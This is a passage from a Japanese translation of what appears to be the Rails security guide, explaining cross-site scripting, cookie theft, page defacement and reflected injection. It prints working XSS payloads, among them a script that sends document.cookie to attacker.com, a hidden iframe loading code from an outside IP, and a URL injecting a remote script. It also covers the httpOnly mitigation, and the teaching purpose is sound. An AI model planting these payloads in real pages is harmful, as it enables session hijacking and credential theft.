 このJavaScriptコードを実行すると、警告ボックスが1つ表示されるだけです。次の例では、見かけの動作はまったく同じですが、通常ではありえない場所にコードが置かれています。

```html
<img src=javascript:alert('Hello')>
<table background="javascript:alert('Hello')">
```

##### Cookie窃盗

先ほどの例では何の害も生じないので、今度は攻撃者がユーザーのcookieを盗み出す手法をご紹介します (攻撃者はこれを利用してユーザーのセッションをハイジャックします)。JavaScriptでは、`document.cookie`プロパティを利用してドキュメントのcookieを読み書きできます。JavaScriptでは同一生成元ポリシーが強制的に適用されます。これは、あるドメインから送り込まれたスクリプトからは、別のドメインのcookieにアクセスできないようにするポリシーです。`document.cookie`プロパティには、生成元webサーバーのcookieが保存されています。しかし、HTMLドキュメントに直接コードを埋め込むと(XSSによってこれが生じることがあります)、このプロパティを読み書きできてしまいます。このコードを自分のWebアプリケーションの適当な場所に手動で注入してみれば、そのページに含まれている自身のcookieが表示されることを確認できます。

```html
<script>document.write(document.cookie);</script>
```

もちろん、攻撃者にしてみれば標的ユーザーが自分で自分のcookieを表示したところで何の意味もありません。次の例では http://www.attacker.com/ というURLから画像とcookieを読み込みます。言うまでもありませんが、このURLは実際には存在しませんので、ブラウザには何も表示されません(訳注: 現在は売り物件のWebページがあるようです)。ただし攻撃者がWebサーバーのアクセスログファイルを調べて標的ユーザーのcookieを参照する可能性もあります。

```html
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
```

www.attacker.com サイト上のログファイルには以下のように記録されます。

```
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
```

この攻撃をある程度緩和するためには[httpOnly](http://dev.rubyonrails.org/ticket/8895)フラグをcookieに追加します。これにより、`document.cookie`をJavaScriptで読み出せなくなります。HTTP only cookieはIE v6.SP1、Firefox v2.0.0.5、Opera 9.5以降で利用できます。Safariはまだこのフラグを検討中であり、このオプションは無視されます。ただしWebTVやMac版IE 5.5などの古いブラウザでは、ページ上での読み込みに失敗します。なお、[Ajaxを使うとcookieが表示可能になる](http://ha.ckers.org/blog/20070719/firefox-implements-httponly-and-is-vulnerable-to-xmlhttprequest/)ことにもご注意ください。

##### Webページの汚損

Webページを書き換える (汚損) ことで、偽の情報を表示したり、標的ユーザーを攻撃者の偽サイトに誘い込んでcookieやログイン情報などの重要データを盗み出すなどのさまざまな攻撃が可能になります。最も多い攻撃は、iframeタグを悪用して外部のコードをWebページに含める方法です。

```html
<iframe name="StatPage" src="http://58.xx.xxx.xxx" width=5 height=5 style="display:none"></iframe>
```

このコードによって、外部にある任意のHTMLやJavaScriptが読み込まれ、Webサイトの一部として埋め込まれます。上のiframeは、[Mpack攻撃フレームワーク](http://isc.sans.org/diary.html?storyid=3015)を使ってイタリアにあるWebサイトへの攻撃で実際に用いられたものです。MpackはWebブラウザのセキュリティホールを介して邪悪なソフトウェアをインストールしようとします。そして攻撃の成功率は50%を誇っています。

さらに特殊な攻撃としては、Webサイト全体を上に重ねて表示したりログインフォームを表示したりするという手口があります。これらは元のサイトと一見そっくりですが、入力されたユーザー名とパスワードを密かに攻撃者のサイトに送信します。あるいは、CSSやJavaScriptを駆使してWebアプリケーション上の本物のリンクを隠して別のリンクを表示し、ユーザーを偽のサイトにリダイレクトするという手法もあります。

リフレクションインジェクション (Reflected injection) 攻撃も同様の攻撃です。後で標的ユーザーに表示するペイロードを実際には保存せず、代わりにURLに長大な文字列として仕込んでおく手法です。特に検索フォームで検索文字列のエスケープに失敗します。以下のリンク先には、「ジョージ・ブッシュが9歳の男の子を議長に任命」と書かれたページがありました。

```
http://www.cbsnews.com/stories/2002/02/15/weather_local/main501644.shtml?zipcode=1-->
  <script src=http://www.securitylab.ru/test/sc.js></script><!--
```
